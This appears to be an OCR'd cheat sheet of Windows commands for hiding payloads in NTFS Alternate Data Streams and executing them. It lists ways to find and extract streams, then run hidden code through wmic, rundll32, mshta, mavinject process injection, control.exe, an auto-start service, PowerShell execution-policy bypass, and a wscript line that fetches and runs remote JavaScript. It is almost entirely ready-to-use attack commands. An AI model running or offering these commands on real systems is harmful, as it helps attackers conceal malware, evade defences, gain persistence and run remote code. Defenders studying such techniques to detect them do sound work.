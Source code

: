 ```bash
## Discover ADS contecnt
dir /R
streams.exe <c:\path\to\file> #Binary from sysinternals#
Get-Item -Path .\fie.txt -Stream *
gci -recurse | % { gi $_.FullName -stream * } | where stream -ne ':$Data'

##Extract content from ADS###
expand c:\ads\file.txt:test.exe c:\temp\evil.exe
esentutl.exe /Y C:\temp\file.txt:test.exe /d c:\temp\evil.exe /o
more < c:\ads\file.txt:test.exe

##Executing the ADS content###

* WMIC
wmic process call create '"C:\Program Files (x86)\TeamViewer\TeamViewer12_Logfile.log:evil.exe"'

* Rundll32
rundll32 "C:\Program Files (x86)\TeamViewer\TeamViewer13_Logfile.log:ADSDLL.dll",DllMain
rundll32.exe advpack.dll,RegisterOCX not_a_dll.txt:test.dll
rundll32.exe ieadvpack.dll,RegisterOCX not_a_dll.txt:test.dll

* Cscript
cscript "C:\Program Files (x86)\TeamViewer\TeamViewer13_Logfile.log:Script.vbs"

* Wscript
wscript c:\ads\file.txt:script.vbs
echo GetObject("script:https://raw.githubusercontent.com/sailay1996/misc-bin/master/calc.js") > %temp%\test.txt:hi.js && wscript.exe %temp%\test.txt:hi.js

* Forfiles
forfiles /p c:\windows\system32 /m notepad.exe /c "c:\temp\shellloader.dll:bginfo.exe"

* Mavinject.exe
c:\windows\SysWOW64\notepad.exe
tasklist | findstr notepad
notepad.exe                   4172 31C5CE94259D4006           2     18,476 K
type c:\temp\AtomicTest.dll > "c:\Program Files (x86)\TeamViewer\TeamViewer13_Logfile.log:Atomic.dll"
c:\windows\WinSxS\wow64_microsoft-windows-appmanagement-appvwow_31bf3856ad364e35_10.0.16299.15_none_e07aa28c97ebfa48\mavinject.exe 4172 /INJECTRUNNING "c:\Program Files (x86)\TeamViewer\TeamViewer13_Logfile.log:Atomic.dll"

* MSHTA
mshta "C:\Program Files (x86)\TeamViewer\TeamViewer13_Logfile.log:helloworld.hta"
(Does not work on Windows 10 1903 and newer)

* Control.exe
control.exe c:\windows\tasks\zzz:notepad_reflective_x64.dll
https://twitter.com/bohops/status/954466315913310209

* Create service and run
sc create evilservice binPath= "\"c:\ADS\file.txt:cmd.exe\" /c echo works > \"c:\ADS\works.txt\"" DisplayName= "evilservice" start= auto
sc start evilservice
https://oddvar.moe/2018/04/11/putting-data-in-alternate-data-streams-and-how-to-execute-it-part-2/

* Powershell.exe
powershell -ep bypass - < c:\temp:ttt

* Powershell.exe
powershell -command " & {(Get-Content C:\ADS\1.txt -Stream file.exe -Raw | Set-Content c:\ADS\file.exe) | start-process c:\ADS\file.exe}"

```